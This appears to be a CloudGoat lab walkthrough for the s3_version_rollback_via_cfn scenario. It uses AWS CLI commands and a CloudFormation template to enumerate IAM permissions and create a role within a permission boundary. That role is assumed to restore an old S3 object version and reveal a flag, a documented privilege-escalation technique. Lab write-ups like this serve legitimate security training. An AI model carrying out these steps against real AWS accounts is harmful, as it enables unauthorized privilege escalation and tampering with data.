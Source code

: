 # CloudGoat Walkthrough: s3_version_rollback_via_cfn

1. Verify that the given website URL uses S3 static web hosting.

2. Configure your AWS CLI profile.

```sh
$ aws configure --profile {IAM User}
```

3. Check permissions.

```sh
$ sts get-caller-identity --profile {IAM User}
$ aws iam get-user --user-name {} --profile {IAM User}
	-> PermissionBoundary Discovery.
$ aws iam list-user-policies --user-name {} --profile {IAM User}
$ aws iam get-user-policy --user-name {} --policy-name {} --profile {IAM User}
	-> Check S3 query permissions, CloudFormation stack creation permissions, CreateRole, etc.
```

4. S3 object, check version and then try to download.

```sh
$ aws s3 ls s3://{} --profile {IAM User} 
		-> Verify bucket name by reporting website static address.

$ aws s3api list-object-versions \
 --bucket {} \
 --profile {IAM User}

$ aws s3api get-object \
  --bucket {} \
  --key {} \
  --version-id {}\
  ./{outfile} \
  --profile {IAM User}
```

5. After failing to download only Flag.txt with bucket policy, check the contents of previous version `index.html`.

```
$ cat {index.html}
    -> Check the previous version of index.html logic and see if it needs to be restored.
```

6. Check permissions to use Cloudformation after restore fails due to lack of putobject permission required to restore previous version.

```sh
$ aws iam get-policy --policy-arn {Boundary ARN} --profile {IAM User}

  -> In order to create a CreateRole in a Cloudformation policy, you must create a template by inserting a boundary policy.
```
```sh
$ aws iam get-policy-version \
  --policy-arn {Boundary ARN} \
  --version-id {Version Id} \
  --profile {IAM User}

  -> Boundary policy has PutObject permission allow check. PutObject permission can be granted with   CreateRole.
```

7. create a Cloudformation template yaml file. (with RoleName matching the resource in the cloudformation inline policy)

```yaml
AWSTemplateFormatVersion: '2010-09-09'
Resources:
  ExploitRole:
    Type: AWS::IAM::Role
    Properties:
      RoleName: CloudFormationRole 
      AssumeRolePolicyDocument:
        Version: '2012-10-17'
        Statement:
          - Effect: Allow
            Principal:
              AWS: "arn:aws:iam::{identity}:user/{IAM user}"
            Action: sts:AssumeRole
            
      PermissionsBoundary: "arn:aws:iam::{identity}:policy/{Boundary Policy}"
           
      Policies:
        - PolicyName: {Desired policy name}
          PolicyDocument:
            Version: '2012-10-17'
            Statement:
              - Effect: Allow
                Action:
                  - s3:PutObject
                Resource: "*"
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; The RoleName of the policy must match and the PermissionsBoundary entry must be included. Additionally, even if you grant higher permissions due to the permission boundary, only putobject will work.

8. Create CloudFormation Stack.

```sh
$ aws cloudformation create-stack \
  --stack-name {} \
  --template-body file://{yaml file path} \
  --capabilities CAPABILITY_NAMED_IAM \
  --profile {IAM User}
```

9. Role Assume.

```sh
$ aws iam list-roles --profile {IAM User} 
	-> Check the Role arn generated by cloudformation.

$ aws sts assume-role \
  --role-arn arn:aws:iam::{}:role/{} \
  --role-session-name {} \
  --profile {IAM User}
```

10. Configure Assume user temporary credentials. (~/.aws/credentials)

```sh
[Assume]
aws_access_key_id = <AssumedAccessKeyId>
aws_secret_access_key = <AssumedSecretAccessKey>
aws_session_token = <SessionToken>
```

11. Restore a previous version.

```sh
$ aws s3api put-object \
  --bucket {} \
  --key index.html \
  --body ./{} \ 
  --content-type text/html \
  --profile {Assume}
```

12. After reconnecting to the web, restore and check the flag.

```
http://{}.s3-website-<region>.amazonaws.com/
```

## Conclusion

In this scenario, we:
1. **Identifying the vulnerability of the object lock + versioning combination.**
    ->Object locking works for single objects, but it doesn't work when combined with versioning. S3 versioning is the concept of stacking objects rather than overwriting them when PutObject is used.
2. **AWS Privilege Escalation** (privilege escalation) by creating a Cloudformation stack
    → Escalate privileges by linking explicitly denied permissions to permission boundaries.

This walkthrough demonstrates a cloud security vulnerability involving S3 and permission boundaries, and shows how to create a role using a CloudFormation stack.